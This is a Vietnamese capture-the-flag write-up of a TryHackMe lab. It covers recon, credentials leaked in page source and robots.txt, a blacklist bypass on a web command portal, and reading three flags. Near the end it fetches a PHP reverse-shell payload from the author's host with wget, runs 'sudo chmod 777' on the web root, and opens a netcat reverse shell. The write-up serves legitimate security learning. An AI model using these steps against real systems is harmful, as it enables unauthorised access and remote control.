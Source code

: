 ﻿### Yêu cầu
- Cho trước:
-- Host: 10.10.55.49 (có thể khác)
-- Web app: https://10-10-55-49.p.thmlabs.com/
- Tìm đủ 3 flags.
### Let's go
- Mở vào trang web, đầu tiên mình thấy không có gì khả nghi. Mình xem page source thì thấy 1 đoạn comment chứa tên tài khoản: `R1ckRul3s`. Phán đoán ban đầu, mình cho rằng có thể là tài khoản đăng nhập vào trang quản trị, hoặc ssh.
- Dùng nmap quét host, chỉ có 2 cổng tcp mở: 80 http, 22 ssh, cùng một số cổng udp nào đó (mình cũng không rõ về các services chạy udp đó).
- Điều đầu tiên mình nghĩ đến là Brute force password vào ssh với username `R1ckRul3s`. Nhưng sau khi Brute force không được, mình mới thử ssh vào host với username `R1ckRul3s` và nhận được thông báo Permission Denied (public key). Mình đoán username R1ckRul3s không đúng.
- Kiểm tra version của service ssh bằng `nmap -sV`, mình thấy ssh có version OpenSSH 7.6p1 (version này có lỗ hổng có thể khai thác username enumeration). Mình khai thác username enumeration thông qua Metasploit với hy vọng tìm kiếm được username. Tuy nhiên, kết quả là không nhận được gì cả.
- Tạm bỏ qua ssh, mình quay trở lại với webapp.
- Dùng gobuster để enum webapp. Kết quả trả ra một vài thứ khá hay ho:
-- /assets 
-- /robots.txt 
-- /login.php 
-- /portal.php 
- Truy cập vào https://10-10-55-49.p.thmlabs.com/robots.txt , mình thấy có đúng 1 dòng `Wubbalubbadubdub`. Mình đoán nó là mật khẩu của tài khoản `R1ckRul3s` tìm thấy trước đó.
- Truy cập vào https://10-10-55-49.p.thmlabs.com/login.php , hiển thị 1 form đăng nhập. Nhập vào username `R1ckRul3s` và password `Wubbalubbadubdub`, authenticate thành công và được redirect đến portal.php.
- Tại đây xuất hiện 1 ô input để thực thi command trên server host. Như thói quen, mình thử `ls -la`. Kết quả trả về các file đã enum được trước đó, thêm vào đó là 2 file mình thấy khả nghi: Sup3rS3cretPickl3Ingred.txt , clue.txt. 
- Mình thử dùng `cat`, `more` để xem 2 file nhưng bị block -> có 1 vài lệnh trong blacklist. Mình dùng `less` để xem thì lại được. Hoặc có thể truy cập trực tiếp từ browser URL. Ok nội dung trong file Sup3rS3cretPickl3Ingred.txt chính là flag đầu tiên cần tìm. Nội dung trong file clue.txt là `Look around the file system for the other ingredient.` - ý nói cần tìm thêm các chỗ khác để lấy 2 flag còn lại.
- Dùng `pwd`, trả về /var/www/html, đây là thư mục chứa content web app.
- Dùng `whoami`, trả về www-data.
- Dùng `ls -la /home` để xem có thể có những thư mục người dùng nào, kết quả trả về có ubuntu và rick. Xem qua thư mục ubuntu không có gì, còn thư mục rick có file second ingrendients. Đây có vẻ là flag thứ 2.
- Vì tên file chứ space nên không thể mở như bình thường được. Mình dùng `less /home/rick/second\ ingredients` và xem được nội dung file. Đây chính xác là flag thứ 2.
- Lúc này việc tìm flag thứ 3 khiến mình gặp khá nhiều thời gian vì không tìm được manh mối nào có ích.
- View page-source portal.php, có 1 dòng comment nội dung là 1 đoạn mã base64, mình decode đoạn mã đó lại ra 1 đoạn mã base64 khác. Mình cứ vậy mà decode khoảng 9-10 lần thì thấy kết quả cuối là`rabbit hole`.
- Mình đã xem file config ssh bằng `less /etc/ssh/sshd_config` và thấy dòng `PasswordAuthentication no` -> không thể đăng nhập ssh bằng mật khẩu.
- Mình thử brute force trang login.php với các từ khóa liên quan đến rabbit hole, rick, root, ubuntu,... nhưng cũng không thành công.
- Sau đó mình dùng `less login.php` mới thấy chỉ authen tài khoản `R1ckRul3s` và mật khẩu `Wubbalubbadubdub`. 
- Về mãi sau, khi tìm đủ 3 flag, mình search `rabbit hole in linux`, mới hiểu có vẻ như đó là 1 hint để xem nội dung file bằng các câu lệnh khác (nhưng trên thực tế mình cũng không dùng đến rabbit hole). Hoặc đó là 1 cú lừa, btw ~~.
- Mình thử dùng netcat để tại reverse shell nhưng không thành công. Sau đó, mình mở http server ở local và dùng `wget 10.11.21.36 8080 php-reverse-shell.php` để upload payload lên host. Ở local báo file đã được get thành công nhưng check trên server mình lại không thấy. Có thể không được phép chỉnh sửa hay tạo file trong folder này.
- Mình thử touch 1 file bất kỳ nhưng không được.
- Dùng `sudo chmod 777 /var/www/html` và upload payload lại thì lại được.
- Dùng thêm `sudo chmod 777 php-reverse-shell.php` cho chắc.
- Chạy netcat  dưới local để lắng nghe và chạy payload trên server, ta có được reverse shell.
- Mình xem qua 1 vòng hệ thống, thử vào /root thì ú òa, có file `3rd.txt`, đọc nội dung file và có ngay flag thứ 3.
- Trên thực tế thì chỉ cần đơn giản chạy `sudo ls -la /root` và `less /root/3rd.txt` ở trên ô input trang portal.php là có thể lấy được flag thứ 3. Nhưng do mình luôn muốn có được reverse shell trên server nên mới tìm cách để upload payload lên.
- Đây là 1 CTF ở mức độ Easy nhưng mình cũng đã mất khá nhiều thời gian để tìm đủ 3 flag, nhất là flag 3. Một vài điều thú vị mình đã thực hiện mặc dù không cần thiết: chmod /var/www/html để upload được payload lên, lấy được reverse shell. Ở các bước đầu tiên, nếu bạn làm theo hướng upload payload và lấy reverse shell thì cũng không cần quan tâm đến blacklist gì cả.
- Có 1 điều thú vị là mình đã suy nghĩ rất nhiều về `rabbit hole`, rằng không biết `rabbit hole` để làm gì, hay gợi ý điều gì, hay chỉ đơn giản là đánh lạc hướng. Cuối cùng mình nghĩ đó là 1 hint nói rằng hãy bypass blacklist =)).
- Ok đến đây thôi. Happy hacking!
